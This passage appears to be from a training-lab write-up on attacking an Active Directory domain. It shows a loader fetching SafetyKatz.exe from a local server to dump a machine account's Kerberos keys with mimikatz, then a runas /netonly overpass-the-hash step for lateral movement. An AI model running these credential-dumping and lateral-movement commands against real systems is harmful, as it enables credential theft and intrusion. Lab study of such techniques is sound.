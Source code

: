 ```
Attributes : 0

[SNIP]
```

`C:\Users\Public\Loader.exe -path http://127.0.0.1:1234/SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-keys📌

[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : TECHSRV30$👤
Domain            : TECH
Logon Server      : (null)
Logon Time        : 3/11/2025 5:54:35 AM
SID               : S-1-5-18

         * Username : techsrv30$
         * Domain   : TECH.FINANCE.CORP
         * Password : (null)
         * Key List :
           aes256_hmac       cf9663ec900673821727858b404456a9f7c104e5a731253781e47cf601b9f747🔑
           rc4_hmac_nt       54c0572a3ddc383be81cdd37b3c8d8a6
           rc4_hmac_old      54c0572a3ddc383be81cdd37b3c8d8a6
           rc4_md4           54c0572a3ddc383be81cdd37b3c8d8a6
           rc4_hmac_nt_exp   54c0572a3ddc383be81cdd37b3c8d8a6
           rc4_hmac_old_exp  54c0572a3ddc383be81cdd37b3c8d8a6
```
🚩

---

### Domain Lateral Movement | OverPass-The-Hash (with RunAs)

9) **OverPass-The-Hash for Domain Lateral Movement** (successful ✅)

Description: Used the **cleartext credentials** of `databaseagent`, extracted in a previous step, to initiate a **net-only authentication session** with `runas`. This allowed running commands as `databaseagent` while maintaining the original user's context in the local environment. Privilege enumeration revealed that **SeDebugPrivilege** and **SeImpersonatePrivilege** were enabled, which could be leveraged for **potential privilege escalation** and further lateral movement within the domain.

![studvm | studentuser #>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`runas /user:tech\databaseagent /netonly "powershell -Command \"Start-Process cmd -Verb RunAs\""`:
```
Enter the password for tech\databaseagent:📌
Attempting to start powershell -Command "Start-Process cmd -Verb RunAs" as user "tech\databaseagent" ...
```
